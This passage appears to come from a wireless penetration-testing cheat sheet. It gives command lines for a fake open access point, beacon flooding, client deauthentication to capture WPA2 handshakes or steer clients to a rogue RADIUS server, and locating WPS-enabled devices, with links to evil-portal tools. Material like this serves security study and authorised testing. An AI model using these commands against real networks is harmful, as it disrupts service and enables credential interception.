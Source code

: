 Launch fake open authentication Wi-Fi network
```
hostapd open.conf
```

--> You can also use WiFi PineApple to setup a captive portal using the "Evil Portal" infusion.  
- https://wiki.wifipineapple.com/legacy/#!captive_portal.md
- https://github.com/kleo/evilportals

# Open Network

## Beacon flood attack
Beacon flood attack is more a nuisance attack linked to 802.11 protocol weaknesses.
- https://github.com/aircrack-ng/mdk4

You can randomly create SSID or give specific wordlist for SSID names.
```
mdk4 wlan1 b -a -g -f ssid_names.txt
```

<img src="./images/beaconflood.png" width="300"/>

## Deauthentication attack
Deauthentication attack is possible because within WPA2 (PSK and Enterprise (MGT)) the management frames are not protected. Its also more of a nuisance attack but can be usefull (comparing to beacon flood) to deauthenticate an STA (station/client) to intercept WPA2-handshake or redirect STA (station/client) to authenticate against your fake **Radius** server (WPA2-Enterprise).  

--> Deauthentication can also be usefull when bypassing Captive Portal, to force client to reconnect and get their MAC address.  

Deauth using aireplay-ng (-c : client is optional)
```
aireplay-ng -0 100 -a BSSID -c STA/CLIENT wlan1
```

# WPS Pin
[Research paper](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf)

Checking within a capture the WLAN with WPS enable
```
wps.wifi_protected_setup_state==2
```

Install reaver
```
sudo apt install reaver
```

Identify device using WPS
```
sudo wash -i wlx00c0ca996340
```

